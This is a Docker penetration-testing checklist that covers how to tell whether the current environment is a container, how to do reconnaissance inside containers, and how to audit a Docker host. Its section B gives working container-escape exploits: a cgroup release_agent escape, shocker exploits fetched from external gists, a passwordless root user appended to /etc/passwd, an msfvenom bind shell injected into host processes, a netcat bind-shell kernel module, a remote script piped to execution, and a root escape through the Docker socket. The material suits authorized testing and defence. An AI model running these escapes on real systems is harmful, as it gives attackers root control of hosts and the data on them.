# Docker Pentest Checklist

## **Section A : Are We Running in a Container?**

This section and the checklist under it is to determine whether the environment under scope is a container itself or a host running Docker containers. For either of the case, there are separate test cases and checklist that needs to be followed.

After completing Section A, if the identified environment is a container itself, go to Section B. If it comes out to be a host running Docker containers, then go to Section C.

### **A1. Does /.dockerenv exist?**

/.dockerenv is a file that is present in all Docker containers. It was used in the past by LXC to load the environment variables in the container. Currently it is always empty, because LXC is not used anymore. However, it is still (officially) used to identify whether a process is running in a Docker container.

Execute the following command to see if /.dockerenv exists.

```
ls /.dockerenv
```

 

### A2. Does /proc/1/cgroup contain `/docker/`?

To limit the resources of containers, Docker creates control groups for each container and a parent control group called docker. If a process is started in a Docker container, that process will have to be in the control group of that container. We can verify this by looking at the `cgroup` of the initial process (`/proc/1/cgroups`)

Execute the following command to confirm if the current environment is a Docker container.

```
cat /proc/1/cgroups
```

 

### **A3. Are there fewer than 5 processes where PID 1 does not represent an init system?**

Containers are made to run one process, while host systems run many processes. Processes on host systems have one root process (with process id 1) to start all necessary (child) processes. On most Linux systems that process is either init or systemd. We would never see init or systemd in a container, because the container only runs one process and not not a full operating system. That is why the number of processes and the process with PID 1 is a good indicator whether we are running in a container.

To list the processes, execute the following command

```
ps aux
```

 

If there are limited number of processes and the process with PID 1 is not something like systemd, init.d, /sbin/init, etc. then it's a strong indicator that the environment is a container.

### **A4. Are common libraries and binaries not present on the system?**

Docker images are made as small as possible. Many processes do not need a fully operational Linux system, they need only part of it. That is why developers often remove libraries and binaries that are not needed for their specific application from their Docker images. If we see a lot of missing  packages, binaries or libraries it is a good indication that we are running inside a container.

The sudo package is an example of this. This package is crucial on many Linux distributions, because it enables a way for non-root users to execute commands as root. However, in a Docker container the sudo package does not make a lot of sense. If a process needs to run something as root, the process should be run as root in the container. That is why sudo is often not installed in Docker images.

Execute the following command to determine if `sudo` is available.

```
which sudo
```

 

## **Section B : Finding Vulnerabilities in Containers**

The following questions and steps are meant to identify interesting parts and weak spots inside containers.

### **B1. What is the current user and which users are available on the system?**

The first step we should take is to see if we are a privileged user and identify other users. We can see our current user by using `id` and see all users by looking at `/etc/passwd`.

Execute the following command to print the current user.

```
id
```

 

Execute the following command to print all users.

```
cat /etc/passwd
```

 

By default, containers run as `root`. That is great from an attackers perspective, because it allows us full access to everything inside the container. A well configured container most likely does not run as root.

### **B2. What is the operating system of the container?**

The next step is to identify the operating system (and maybe the Docker Image) of the container. All modern Linux distributions have a file `/etc/os-release` that contains information about the running operating system.

Execute the following command to determine the operating system.

```
cat /etc/os-release
```

 

### **B3. Which processes are running?**

To get a better idea of what a container is supposed to do, we can look at the processes. Because containers should only have a singular task (e.g. running a database), they should only have one running process.

Execute the following command to list down the processes.

```
ps aux
```

 

In this example, we see that the image mariadb only has one process
(mysqld). This way we know that the container is a MySQL server and is

probably based on the default MySQL Docker image (mariadb).

### **B4. What is the host operating system?**

It is also important to look for information about the host. This can be useful to identify and use relevant exploits. Because containers use the kernel of the host, we can use the kernel version to identify information about the host.

Considering an example where the host is running Arch Linux and the container is based on Ubuntu, execute the following command:

```
uname -a && echo "" && cat /etc/os-release
```

 

We are running an Ubuntu container, which we see when we look in the /etc/os-release file. However, when we look at the kernel version (using the `uname -a` command), we see that we are using an Arch Linux kernel (`5.18.8-arch1-1`). That means that we are most likely running on an Arch Linux host.

It is interesting to note that we also see the kernel version number (in this case `5.18.8-arch1-1`). This can be used to see if the system is vulnerable to kernel exploits, because

some kernel exploits may be used to escape the container.

### **B5. Which capabilities do the processes in the container have?**

Once we have a clear picture what kind of system we are working with, we can do some more detailed reconnaissance. One of the most important things to look at are the kernel capabilities (see section 3.2.6.1) of the container. We can do this by looking at `/proc/self/status`. This file contains multiple lines that contain information about the granted capabilities.

Execute the following command to print the contents of the file `/proc/self/status` and extract the value of `CapEff` since it represents the current capabilities.

```
cat /proc/self/status | grep -i capeff
```

 

The capabilities are represented as a hexadecimal value. Every capability has a value and the CapEff value is the combination of the values of granted capabilities. We can use the capsh tool to get a list of capabilities from a hexadecimal value (this can be run on a different system).

```
capsh --decode=00000000a80425fb
```

 

Follow the following steps to escape container for respective capabilities.

#### *B5.1. CAP_SYS_ADMIN*

Run the following commands in the container to achieve execution on the host machine.

```
mkdir /tmp/cgrp
mount -t cgroup -o rdma cgroup /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=([^,]*).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /output
```

 

#### *B5.2 CAP_DAC_READ_SEARCH*

Run the following commands on any system to compile the exploit.

```
curl -o shocker.c http://stealth.openwall.net/xSports/shocker.c
sed -i "s/\/.dockerinit/\/tmp\/handler/" shocker.c
cc -Wall -std=c99 -O2 shocker.c -static -o shocker
```

Note that this exploit requires a file handler i.e. a file which is mounted from host inside the container. Instead of the default `/.dockerinit` (which is no longer created in newer versions of Docker), identify such file and replace it with `/.dockerinit` in the exploit code with sed as done in the above command. We are assuming that `/tmp/handler` is such a file.

Transfer the `shocker` compiled binary to the container and execute it.

 

 

#### *B5.3. CAP_DAC_OVERRIDE + CAP_DAC_READ_SEARCH*

Get `/etc/passwd` by leveraging `CAP_DAC_READ_SEARCH` as shown in **B5.2**. Append the following line to the fetched file.

```
pwn::0:0:root:/root:/bin/bash
```

 

Just like **B5.2.** the exploit for this capability also requires a file handler. We are assuming that `/tmp/handler` is such a file.

Execute the following commands on any system to fetch and compile the exploit binary:

```
curl -o shocker_write.c https://gist.githubusercontent.com/kamakazix/0310fb88fa0e05efa8af9d7deada0273/raw/47300f28d20b72bc57fe2d1ebdce4a2ee307e2b2/shocker_write.c
sed -i "s/\/etc\/hostname/\/tmp\/handler/" shocker_write.c
cc -Wall -std=c99 -O2 shocker_write.c -static -o shocker_write
```

Transfer the `shocker_write` compiled binary to the container and execute it.

 

 

We can confirm the change by simply executing the following command:

```
su - pwn
```

 

#### *B5.4. CAP_SYS_PTRACE + --pid=host*

In a scenario where the container has `CAP_SYS_PTRACE` capability and the container processes are mapped to that of host i.e. `--pid=host`, then we can inject shellcode in processes.

For this, create a bind shell payload on any system with `msfvenom` installed, using the following command.

```
msfvenom -p linux/x64/shell_bind_tcp RHOST=0.0.0.0 LPORT=5600 -f raw -o payload.bin
```

 

Download *linux-injector* utility from <https://github.com/dismantl/linux-injector> and compile it on an environment similar to that of container (follow steps mentioned in the GitHub repository).

Transfer `payload.bin`, `injector`,`clone64.bin` and `mmap64.bin` into the container.

 

Run the following command to identify a process on host

```
ps aux
```

 

To inject the `payload.bin` into the above process execute the following command:

```
./injector 6184 payload.bin
```

 

 

Now connect to the bind shell by executing the following command:

```
nc 10.13.37.1 5600
```

 

#### *B5.5. CAP_SYS_MODULE*

When a container is running with `CAP_SYS_MODULE` capability it can inject the kernel modules into the running kernel of the host machine. Since containers use the host kernel, this can be used to breakout of the container to the host.

Create an environment similar to that of the target host machine and compile a bind shell kernel module. For this, create two files as follows:

**bind-shell.c**

```
#include <linux/kmod.h>
#include <linux/module.h>

char* argv[] = {"/bin/bash","-c","nc -nlvp 5600 -e /bin/bash", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init bind_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit bind_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(bind_shell_init);
module_exit(bind_shell_exit);
```

**Makefile**

```
obj-m +=bind-shell.o

all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Make sure the simulated environment has the `linux-headers` installed for compilation of the kernel.

Execute the following command to compile the kernel:

```
make 
```

 

Transfer `bind-shell.ko` module to the container and execute the following command to load it:

```
insmod bind-shell.ko
```

 

The kernel will be loaded. Now connect to the bind shell using the following command:

```
nc 10.13.37.1 5600
```

 

### **B6. Is the container running in privileged mode?**

If the container runs in privileged mode it gets all capabilities. This makes it easy to check if we are running a process in a container in privileged mode. `0000003fffffffff` is the representation of all capabilities.

Once identified that a container is running in --privileged mode, execute the following commands in the container to achieve execution on host.

```
curl -sSL https://gist.githubusercontent.com/kamakazix/d6e835613c0391f164e4829783f933d8/raw/aa8943f23944322ca27a7a6d91a885b7d85548a5/run.sh -o /tmp/run.sh
chmod +x /tmp/run.sh
/tmp/run.sh
```

 

 

The downloaded `run.sh` executes `ps -eaf` and saves the output in `/*_payload.out`. You can modify `run.sh` to run arbitrary commands.

### **B7. What volumes are mounted?**

Volumes, the directories that are mounted from the host into the container, are the persistent data of the container. This persistent data might contain sensitive information, that is why it is important to check what directories are mounted into the container.

We can do this by looking at the mounted filesystem locations, using the following command.

```
cat /proc/mounts
```

 

### **B8. Is there sensitive information stored in environment variables?**

The environment variables are a way to communicate information to containers when they are started. When a container is started, environment variables are passed to it. These variables often contain passwords and other sensitive information.

We can list all the environment variables that are set inside a Docker using the env command (or by looking at the /proc/pid/environ file of a process).

 

### **B9. Is the Docker Socket mounted inside the container?**

It is quite common for the Docker Socket to be mounted into containers. For example if we want to have a container that monitors the health of all other containers. However, this is dangerous. We can search for the socket using two techniques. We either look at the mounts or we try to look for files with names similar to `docker.sock`.

To determine if `docker.sock` file is mounted, execute the following command.

```
cat /proc/mounts
```

 

Once confirmed that the Docker Socket is mounted in side the container, it is very trivial to   achieve execution on the host with the `root` user. For the same, execute the following commands.

```
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:focal","Cmd":["id"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
```

 

### **B10. What hosts are reachable on the network?**

We should also look at the network of the container. We should look at which containers are in the same network and what the container is able to reach. To do this, we will most likely need to install some tools. Even the most basic networking tools (e.g. ping) are removed from most Docker images, because few containers will need them.

By default, all containers get an IPv4 address in subnet 172.17.0.0/16. It is possible to find the address (without installing anything) of a container we have access to by looking at /etc/hosts/ file. Docker will add a line that resolves the hostname of the containers to the IPv4 address to /etc/hosts, in scenarios where `docker-compose` is used.

## **Section C : Finding Vulnerabilities on the Host**

The following questions and steps are meant to identify interesting parts and weak spots on hosts running Docker.

### **C1. What is the version of Docker?**

Run `docker --version` to find the version of Docker.

We will need to check if there are any known software related bugs in this version of Docker. We can find relevant CVEs in the National Vulnerability Database.

### **C2. Which CIS Docker Benchmark guidelines are implemented incorrectly or are not being followed?**

Docker itself has released a scanner (called Docker Bench for Security) that is based on the CIS Docker Benchmark. It is meant to run on a host running Docker. The scanner checks whether the Docker configuration, images and containers on the host follow every guideline in the CIS Docker Benchmark. Some guidelines might be irrelevant to every host (e.g. guidelines relating to Docker Swarm). These are skipped by Docker Bench for Security. Docker Bench for Security solves the biggest problem of the CIS Docker Benchmark: its length. The CIS Docker Benchmark is a long document, which makes it hard to use. Because Docker Bench for Security automatically checks all guidelines, we only need to look at the guidelines that do not pass the check. This makes it a helpful tool during a security assessments.

Execute the following commands to run Docker Bench for Security.

```
git clone https://github.com/docker/docker-bench-security.git
cd docker-bench-security
sudo sh docker-bench-security.sh
```

 

### **C3. Which users are allowed to interact with the Docker socket?**

Execute `ls -l /var/run/docker.sock` to see the owner and group of `/var/run/docker.sock` and which users have read and write access to it. Users that have read and write permissions to the Docker socket are allowed to interact with it.

If the current user is able to interact with the socket, then follow the steps mentioned in B9.

### C4. Who is in the docker group?

Because having access to Docker is equivalent to having root permissions, the users that are allowed to use Docker are interesting targets. If there is a way to become one of those users, we will essentially have access to everything on the host.

By default, root and every user in the docker group has read and write permissions to the socket. We can see who is in the docker group by looking in `/etc/group`.

If the current user is able to interact with the socket, then follow the steps mentioned in B9.

### C5. Is the setuid bit set on the Docker client binary?

Check the permissions (including whether the setuid bit is set) of the Docker binary by executing

```
ls -l $(which docker)
```

If setuid bit is set, then follow the steps mentioned in B9.

### C6. What images and containers are available?

We should check which images and containers (both running and stopped) are available on the host. This will tell us more about the system we are testing.

The following command will list all available images (including intermediate

```
docker images -a
```

The following command will list all (running and stopped) containers.

```
docker ps -a
```

For a detailed view of containers along with the associated images and commands, execute the following command.

```
docker ps -a --no-trunc --format="{{.Names}} {{.Command}} {{.Image}}"
```

### C8. Do any docker-compose.yaml or .docker/config.json files exist?

Because setting up environments with Docker can be quite complex, many Docker users use docker-compose to save all necessary Docker settings to configuration files to remove the need of repeating steps. These configuration files often contain sensitive information. If the permissions on these files are misconfigured, users that should not be able to read the files, might be able to do so.

Docker users and penetration testers should pay extra attention to these files, because they could easily lead to secrets being leaked.

Two common files that might contain sensitive information are \~/.docker/config.json and docker-compose.yaml.

#### C8.1 \~/.docker/config.json

When pushing images to a registry, users need to login to the registry to authenticate themselves. It would be quite annoying to login every time a user wants to push and image. That is why .docker/config.json caches those credentials. These are stored in Base64 encoding in the home directory of the user by default. An attacker with access to the file can use the credentials to login and push malicious Docker images.

#### C8.2 docker-compose.yaml

docker-compose.yaml files often contain secrets (e.g. passwords and API keys), because all information that should be passed to a container is saved in the docker-compose.yaml file.

### C9. Are the iptables rules set for both the host and the containers

When the Docker daemon is started, it sets up its own chains and rules to create isolated networks. The way it sets up its rules completely bypasses other in the firewall (because they are setup before the other rules) and by default the rules are quite permissive. This is by design, because the network stack of the host and the container are separate, including the firewall  rules. Users of Docker might be under the impression that firewall rules set by the host are applicable to everything running on the host (including containers). This is not the case for Docker containers and could lead to unintended exposed ports.

List the iptables by running

```
iptables -vnL
```

and

```
iptables -t filter -vnL
```


